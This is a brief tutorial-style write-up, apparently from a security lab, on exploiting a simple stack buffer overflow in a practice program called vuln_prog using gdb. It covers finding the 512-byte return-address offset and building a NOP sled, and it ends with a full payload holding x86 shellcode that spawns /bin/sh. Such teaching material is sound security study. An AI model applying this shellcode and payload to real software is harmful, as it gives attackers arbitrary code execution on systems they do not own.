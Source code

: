 ## Simple Buffer Overflow

The objective here was to exploit a very simple buffer overflow in the program called vuln_prog. 

First, I have run vuln_prog with gdb using the command: gdb vuln_prog

The size of the buffer in the program is 500 bytes. So we can try printing A's and try to fill up the buffer. We can use python or perl script. Run the following command in gdb.
``` 
run $(python -c "print('A'*500)")
```
The program exits normally. We now increment the A's and see if there is any variation in the output. At 508 A's we get a segmentation fault. While incrementing the number of A's and testing with gdb, we can confirm that the return address starts when we fill with 512 A's.

The next step is to place a working shell code in the buffer. First, test the shellcode to check if it works before placing it in the buffer. Next, we insert the NOP sled to solve the problem of finding the exact address of the buffer, as it increases the size of the target area. Our shell code is 45 bytes, so the rest of the 467 bytes (512 bytes, where the return address starts - 45 bytes, which is the size of shellcode) can be NOP (\x90) to fill up the buffer. Finally, we need to add the return address to our payload.
Any memory address in the NOP can be chosen as the return address and added to payload in little endian format.

The final payload:
```
$(python -c 'print "\x90"*467 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0""\x88\x46\x07\x89\x46\x0c\xb0\x0b""\x89\xf3\x8d\x4e\x08\x8d\x56\x0c""\xcd\x80\x31\xdb\x89\xd8\x40\xcd""\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x58\xd9\xff\xff"')
```
